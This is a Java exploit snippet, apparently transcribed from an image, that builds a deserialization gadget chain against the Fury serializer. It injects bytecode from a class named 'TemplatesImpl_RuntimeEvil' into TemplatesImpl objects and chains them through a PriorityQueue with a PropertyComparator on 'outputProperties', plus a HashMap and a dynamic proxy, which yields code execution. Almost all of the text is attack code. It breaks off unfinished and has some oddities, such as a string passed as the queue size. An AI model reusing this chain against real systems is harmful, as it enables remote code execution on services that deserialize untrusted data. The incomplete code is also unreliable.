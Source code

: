 ```java
import java.util.PriorityQueue;


public class Main {

    static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field declaredField = obj.getClass().getDeclaredField(fieldName);
        declaredField.setAccessible(true);
        declaredField.set(obj, value);
    }


    public static void main(String[] args) throws Exception {
        ///templates

        InputStream inputStream = Main.class.getResourceAsStream("TemplatesImpl_RuntimeEvil.class");
        byte[]   bytes       = new byte[inputStream.available()];
        inputStream.read(bytes);

        TemplatesImpl tmpl      = new TemplatesImpl();
        Field    bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{bytes});
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "hello");


        TemplatesImpl tmpl1      = new TemplatesImpl();
        Field    bytecodes1 = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes1.setAccessible(true);
        bytecodes1.set(tmpl1, new byte[][]{bytes});
        Field name1 = TemplatesImpl.class.getDeclaredField("_name");
        name1.setAccessible(true);
        name1.set(tmpl1, "hello2");
        ///templates
        String prop = "digester";
        PropertyComparator propertyComparator = new PropertyComparator(prop);
        Fury fury = Fury.builder().withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .build();
        ////jdk

        Object templatesImpl1 = tmpl1;
        Object templatesImpl = tmpl;

        PropertyComparator propertyComparator1 = new PropertyComparator("outputProperties");

        PriorityQueue priorityQueue1 = new PriorityQueue(2, propertyComparator1);
        ReflectUtil.setFieldValue(priorityQueue1, "size", "2");
        Object[] objectsjdk = {templatesImpl1, templatesImpl};
        setFieldValue(priorityQueue1, "queue", objectsjdk);
        /////jdk

        byte[] data = SerializeUtil.serialize(priorityQueue1);

        Map hashmap = new HashMap();
        hashmap.put(prop, data);

        MapProxy mapProxy = new MapProxy(hashmap);
        ObjectCreationFactory  test = (ObjectCreationFactory) Proxy.newProxyInstance(ObjectCreationFactory.class.getClassLoader(), new Class[]{ObjectCreationFactory.class}, mapProxy);
```